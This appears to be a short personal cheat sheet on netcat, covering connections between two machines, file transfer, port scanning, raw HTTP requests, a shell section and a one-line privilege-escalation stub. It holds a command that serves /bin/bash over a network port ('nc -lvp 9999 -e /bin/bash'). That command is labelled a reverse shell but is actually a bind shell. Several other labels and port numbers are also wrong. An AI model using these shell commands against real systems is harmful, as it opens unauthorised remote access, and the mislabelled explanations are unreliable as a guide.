 [ NET-CAT ]
------------------------------------------------------

- Establishing communication between 2 machines

Machine 1 : 

> nc -lp 8080 -vvv
[-lp : listening port]
[-vvv: verbose]

Machine 2 : 

> nc <machine1-IP> 8080 -v

------------------------------------------------------------

[ File sharing ]

Machine 1 : 

> nc -lp 9999 -v < data.txt
[< : standard output, sends file over tunnel]

Machine 2 :

> nc <machine1-IP> 8080 -v > file.txt
[> : standard input, recieves file ]

-------------------------------------------------------------

[ POrt Scanning ]

- Scans the given ports on specific IP provided

> nc -z <target-IP> 80 -v  							[single port]

> nc -z <target-IP> 80 22							[multiple port]

> nc -z <target-IP> 80-100 							[range of IP]

---------------------------------------------------------------------------

[ HTTP Request ]

> nc <domain-server> 80 -v 								--- sending the request from our end
GET /robots.txt HTTP/1.1
Host: <domain>

-------------------------------------------------------------------------------

[ Launching Reverse Shell Using NetCat ]

Machine 1: Target

> nc -lvp 9999 -e /bin/bash

Machine 2: Attcker

> nc <target-IP> 9999 -v

--------------------------------------------------------------------------------------

[ Privilege Escalation - Local ]

> uname -a 								--- to check the Os and Kernel Version

--------------------------------------------------------------------------------------
